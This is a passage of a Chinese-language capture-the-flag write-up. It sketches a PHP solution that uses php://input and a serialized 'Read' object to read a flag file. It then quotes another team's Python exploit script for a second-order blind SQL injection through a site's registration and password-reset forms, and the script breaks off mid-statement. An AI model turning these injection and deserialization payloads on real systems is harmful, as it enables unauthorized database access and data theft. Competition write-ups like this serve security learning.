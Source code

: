 是让传三个参数`user,file,pass`，然后先构造`user=php://input`,post值`the user is admin`。`file=class.php`，`pass=O:4:"Read":1:{s:4:"file";s:8:"f1a9.php";}`反序列化去读取`f1a9.php`。直接出`flag`。

![](http://7xi72v.com1.z0.glb.clouddn.com/16-9-10/78532530.jpg)

###10 、三秒钟记忆(300)
> 三秒钟记忆

最近只有三秒钟记忆，忘记的事情总是要一遍一遍的找回来...
http://huashan.xdsec.cn/pic

这题也没做出来

也是看了师傅们的wp
**`二次注入，触发点在密码找回那边。exp：`**

```python
import requests
import base64
import os
import random
#by mathias@xdsec
# Copyright (c) 7 team  All rights reserved
def regist(usr):
    flag=False
    url="http://huashan.*****.cn/pic/index.php?page=login"
    payload={'name':usr,'pass':'123456','email':'123456','register':'%E6%B3%A8%E5%86%8C'}
    r=requests.post(url,data=payload)
    txt=r.text.encode('utf-8')
    if 'Duplicate' in txt or len(txt)==503:
        flag=True
    return flag

def reset(usr):
    flag=False
    url="http://huashan.*****.cn/pic/index.php?page=login"
    payload={'name':usr,'reset':'%E5%BF%98%E8%AE%B0%E5%AF%86%E7%A0%81'}
    r=requests.post(url,data=payload)
    if len(r.text)==460:
        flag=True
    return flag

if __name__=="__main__":

    url="http://huashan.*****.cn/pic/index.php?page=login"
    flag=False
    user=str(random.randint(10000000000,99999999999))
    p=user+'\' and (select ascii(substr(flag,1,1)) from flag)>50#'
    flag=regist(user)
    if not flag:
        print "regist "+user+" error"
        os._exit()
    else:
        print "regist "+user+" success"

    flag=regist(p)
    if not flag:
        print "regist "+p+" error"
        os._exit()
    else:
        print "regist "+p+" success,now reset password"

    flag=reset(p)
    if flag:
        print "Reset success,now inject"
    else:
```